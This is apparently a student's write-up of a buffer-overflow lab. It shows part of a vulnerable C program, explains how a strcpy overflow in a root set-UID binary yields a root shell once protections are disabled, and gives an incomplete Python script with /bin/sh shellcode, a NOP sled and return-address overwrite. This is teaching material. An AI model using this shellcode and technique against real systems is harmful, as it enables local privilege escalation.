 ```c
    printf("Input size: %d\n", length);
    dummy_function(str);
    fprintf(stdout, "==== Returned Properly ====\n");
    return 1;
}

// This function is used to insert a stack frame of size 
// 1000 (approximately) between main's and bof's stack frames. 
// The function itself does not do anything. 
void dummy_function(char *str)
{
    char dummy_buffer[1000];
    memset(dummy_buffer, 0, 1000);
    bof(str);
}

```

The file has a buffer overflow vunerability in the strcpy command because the function doesn't check for boundaries, that means that if the program is a root owned set-UID file we can feed the function a string that makes it spawn a root shell

For this to be exploitable it is needed for the OS safeguards be turned off and for the the code to be compiled with the following flags ```-z execstack -fno-stack-protector```

### 3

#### Step 1

* In this task our goal is exploit the buffer-overflow vulnerability in the target program.
* We will use a debugger method to find it out and we need to use gdb to debug stack-L1-dbg.

![](https://i.imgur.com/7EVXzdI.png)


<p> 
    Fig.3- Important values to make the attack
</p>
 
#### Step 2

```python
#!/usr/bin/python3
import sys
shellcode= (
    "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"
 # ✩ Need to change ✩
).encode(’latin-1’)
# Fill the content with NOP’s
content = bytearray(0x90 for i in range(517))
##################################################################
# Put the shellcode somewhere in the payload
start = 490 # ✩ Need to change ✩
content[start:start + len(shellcode)] = shellcode
# Decide the return address value
# and put it somewhere in the payload
ret = 0xFFFFCB96 #if 32 bits senão 0x48
# ✩ Need to change ✩
offset = 112  #Number of bytes of the buffer in task 2 (???) # ✩ Need to change ✩
L = 4 # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder=’little’)
##################################################################
# Write the content to a file
with open(’badfile’, ’wb’) as f:
```